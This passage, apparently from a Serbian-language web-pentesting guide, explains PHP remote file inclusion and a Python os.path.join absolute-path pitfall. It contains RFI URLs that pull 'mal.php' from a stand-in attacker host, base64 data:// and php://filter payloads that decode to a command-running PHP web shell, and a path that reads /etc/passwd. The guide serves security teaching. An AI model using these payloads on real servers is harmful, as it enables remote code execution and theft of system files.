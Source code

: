 ## Udaljeno uključivanje datoteka

U php-u je ovo onemogućeno po podrazumevanim postavkama jer je **`allow_url_include`** podešen na **Isključeno.** Morate ga postaviti na **Uključeno** da biste omogućili ovu funkcionalnost, i u tom slučaju možete uključiti PHP datoteku sa svog servera i dobiti RCE:

```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

Ako je iz nekog razloga **`allow_url_include`** podešen na **On**, ali PHP **filtrira** pristup spoljnim veb stranicama, [prema ovom postu](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), možete koristiti na primer protokol podataka sa base64 da dekodirate b64 PHP kod i dobijete RCE:

{% code overflow="wrap" %}
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
{% endcode %}

{% hint style="info" %}
U prethodnom kodu, konačni `+.txt` je dodat jer napadaču treba string koji se završava sa `.txt`, tako da string završava sa tim i nakon b64 dekodiranja taj deo će vratiti samo smeće, a pravi PHP kod će biti uključen (i stoga, izvršen).
{% endhint %}

Još jedan primer **ne koristeći `php://` protokol** bio bi:

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

## Python Root element

U Pythonu u kodu poput ovog:

```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```

Ako korisnik prosledi **apsolutnu putanju** do **`file_name`**, **prethodna putanja se jednostavno uklanja**:

```python
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```

To je željeno ponašanje prema [dokumentaciji](https://docs.python.org/3.10/library/os.path.html#os.path.join):

> Ako je komponenta apsolutna putanja, sve prethodne komponente se odbacuju i spajanje se nastavlja od apsolutne putanje komponente.
